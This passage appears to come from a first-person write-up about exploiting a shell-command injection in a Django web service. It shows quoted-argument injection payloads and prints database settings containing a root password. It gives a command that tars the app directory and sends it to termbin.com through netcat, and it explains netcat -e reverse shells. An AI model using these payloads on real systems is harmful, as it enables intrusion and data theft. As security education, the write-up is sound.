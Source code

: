 However, even without `root` access, the problem is severe as hell. At first glance, one might feel that our hands are pretty limited. Since we don't have an interactive shell, any command that requires interactive shell will not succeed. And only stdout is collected and sent back to user, not error messages. 

Well, first of all, one could choose to redirect the error message to a file, and use a separate command to examine that file. For example, `abc' && mysql -v 2> ~/err && ls '` will try to access the `mysql` database. If the access succeeds, we will be able to see the result of `ls`. So if we know it fails, we could check the file by a second `cat` command. 

Secondly, many interactive tools have their scripting compatible counterparts. This is mainly because often programer would want to use them in scripts. For example, `adduser` is an interactive tool, while `useradd` is the low-level pure commandline tool. So many can be done without an interactive shell.

Thirdly, by issueing `ls`, `cat`, and `find` commands, we will able to look at any file we want. We could:

- `find .` to recursively list out every file.
- `cat` interesting files. For example `settings.py` for Django.

That's exactly how I find the Django database settings:

```python
DATABASES = {'default': 
                 {
                     'ENGINE': 'django.db.backends.mysql',
                     'NAME': 'c2',
                     'USER': 'root',
                     'PASSWORD': '}SisGheec4',
                     'HOST': 'localhost',
                     'PORT': '3306', 
                 }
}
```

We can also download every file in the working directories. There do exists online pastebins that are easily accessible from command line, e.g. [termbin](http://termbin.com/). You can post things by simply send text to `termbin.com:9999` using `netcat`. The following command would `tar` the entire working directory, Base64 it, and send it to pastebin: `abc' && tar -c ../c2 | netcat termbin.com:9999 && ls'`.

In mordern systems, usually the program `netcat` is not installed by default for security reasons. It is simply too easy to acquire a remote shell using `netcat`. However, there exits pre-compiled staticly linked binary of `netcat` on GitHub, see [Andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Execute `wget` on the server and pull down the binary. 

The final exploit, and the most powerful one, is getting an interactive shell on the remote machine. The key is to utilize `netcat`. The `netcat` program is a tool that can preform TCP / UDP operationsl You can ask it connect to a remote location, or listen a local port for incomming connections. It has an option `-e`, which instructs the `netcat` to send the text it receives as argument of a selected program, and send the output to the remote computer. Executing `netcat -e` with `/bin/sh` essentiallly connect the input and output of `/bin/sh` program to a TCP connection, forming a remote shell.

Well unfortunately this won't for our particular case, because our server is hidden behind virtualizations. It is running inside a container. Unless the host system decides to expose particular ports, the container cannot listen on any port of the host. However, what we could do, is to form a reverse shell. Instead of intiating the connection from our machine, we initial the TCP connection from the target to our machine. Of course this will expose the exact IP address of the attacker, unless using reverse proxy. 
